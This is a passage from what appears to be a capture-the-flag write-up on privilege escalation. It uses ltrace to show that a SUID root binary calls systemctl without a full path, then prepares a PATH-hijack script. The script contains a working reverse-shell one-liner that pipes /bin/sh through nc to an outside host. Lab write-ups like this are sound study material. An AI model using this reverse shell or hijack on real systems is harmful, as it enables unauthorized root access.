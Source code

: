 ```
aa29e9<redacted>
```

### Priv esc

There's an interesting SUID file in the `utils` directory: `zabbix-service`
```
zapper@zipper:~/utils$ ls -l
ls -l
total 12
-rwxr-xr-x 1 zapper zapper  194 Sep  8 13:12 backup.sh
-rwsr-sr-x 1 root   root   7556 Sep  8 13:05 zabbix-service
```

The file seems to control one of the zabbix service:
```
zapper@zipper:~/utils$ ./zabbix-service
./zabbix-service
start or stop?: start
start
```

To see what it does, I used `ltrace` to check which functions are called:
```
zapper@zipper:~/utils$ ltrace -s 256 ./zabbix-service
ltrace -s 256 ./zabbix-service
__libc_start_main(0x45d6ed, 1, 0xbfb57f54, 0x45d840 <unfinished ...>
setuid(0)                                        = -1
setgid(0)                                        = -1
printf("start or stop?: ")                       = 16
fgets(start or stop?: start
start
"start\n", 10, 0xb7f345c0)                 = 0xbfb57e82
strcspn("start\n", "\n")                         = 5
strcmp("start", "start")                         = 0
system("systemctl daemon-reload && systemctl start zabbix-agent"Failed to reload daemon: The name org.freedesktop.PolicyKit1 was not provided by any .service files
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                           = 256
+++ exited (status 0) +++
```

Based on the `ltrace` output, we see that the program executes `systemctl daemon-reload && systemctl start zabbix-agent` as user root.

Because the program doesn't execute systemctl using its full path, it is susceptible to hijacking by changing the PATH environment variable.

We can write a simple bash script that spawns a reverse shell using a named pipe and name it `systemctl`
```
zapper@zipper:~/utils$ cat systemctl
#!/bin/sh

rm /tmp/f2;mkfifo /tmp/f2;/bin/cat /tmp/f2|/bin/sh -i 2>&1|/bin/nc 10.10.14.23 5555 >/tmp/f2
zapper@zipper:~/utils$ chmod +x systemctl
chmod +x systemctl
```
